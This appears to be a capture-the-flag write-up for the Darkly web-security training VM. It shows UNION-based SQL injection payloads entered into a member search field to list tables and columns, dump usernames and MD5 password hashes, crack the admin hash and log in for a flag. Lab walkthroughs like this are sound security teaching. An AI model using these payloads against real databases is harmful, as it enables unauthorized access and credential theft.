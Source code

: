 # SQL Injection - Login

See [SQL injection Images](https://github.com/anyashuka/Darkly/tree/master/SQL_Injection_Images) for SQL Injection description, use & prevention.

## Breach

Go to page:

{VM_IP}/index.php?page=member

When we were doing SQL injection into the image search, we noticed something after inputting the following command:


### Get the table names in the database

```1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.TABLES```

* First name: Member_Brute_Force,
Surname : db_default

... Maybe this means we can exploit a member's login details (name, password).

We're going to be doing the same thing here as we did in the SQL image search injection. 
Insert the following commands into the member search bar:


### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here we find:

* First name: db_default,
Surname : id
* First name: db_default,
Surname : username
* First name: db_default,
Surname : password


### Search for the username and password of Member_Brute_Force

```1 OR 1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default```

* First name: Flag,
Surname : GetThe
* First name: root,
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
* First name: admin,
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

... Aha! Let's try decrypting those with md5.

[md5_decrypt](https://md5decrypt.net)(3bf1114a986ba87ed28fc1b5884fc2f8) = shadow


### Use our newly aquired admin + password details

Let's try plugging that in on the login page:

{VM_IP}/index.php?page=signin

Username: admin, Password: shadow

The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
